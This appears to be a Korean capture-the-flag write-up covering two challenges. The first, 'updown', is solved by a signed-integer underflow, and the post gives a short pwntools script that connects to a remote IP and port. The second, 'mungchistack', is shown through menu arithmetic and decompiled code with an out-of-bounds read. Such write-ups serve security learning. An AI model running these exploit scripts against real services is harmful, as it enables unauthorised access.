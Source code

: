 updown 게임에서, 두 번째 입력값이 1 또는 2가 아니면, point 에서 2*(첫 번째 입력) 만큼 뺀다.

input 은 signed int 기 때문에 음수를 입력해서 point 를 증가시켜 flag 를 구매할 수 있다.

```cpp
from pwn import *
r=remote("3.39.28.41", 8888)
r.sendline("sn")
r.sendline("3")
r.sendline("5")
r.sendline("-50000000 3")
r.sendline("2")
r.sendline("6")

r.interactive()
```

---

## mungchistack

thread 에서 start_routine 으로 eat, play, clean 메뉴를 호출할 수 있는 무한루프가 돌아간다.

`satiety == 0 && clean == 7 && heappy == 28` → `eventCall()` 호출

`satiety == 6 && clean == 2 && happy == 2` → `eventHunt()` 호출

- eat : satiety+4, clean-1, happy+1
- play : satiety -2, clean -2, happy+3
- clean : satiety -2, clean +4

저 두 함수를 호출하기 위해서 메뉴를 어떻게 조합할지 방정식을 세워본 결과

`eat*7 | play*7 | clean*7 → eventCall()`

`eat*2 | clean*1 → eventHunt()`

각 함수에서 일어나는 취약점에 대해 알아보자.

`eventHunt()`

```cpp
__isoc99_scanf("%16s", nptr);
  HIDWORD(v2) = atoi(nptr);
  if ( v2 < 0 && SHIDWORD(v2) > 13 )
    puts("\x1B[32m[3]ERROR!\x1B[0m");
  puts("\x1B[1;1H\x1B[2J");
  puts(
    "\n"
    "    /\\_/\\           ___\n"
    "   = o_o =_______    \\ \\  -mungchi-\n"
    "    __^      __(  \\.__) )\n"
    "(@)<_____>__(_____)____/");
  printf("\n\nThe cat has caught something. ");
  write(1, "[", 1uLL);
  write(1, &v4 + SHIDWORD(v2), 8uLL);
  write(1, "]\n", 2uLL);
```
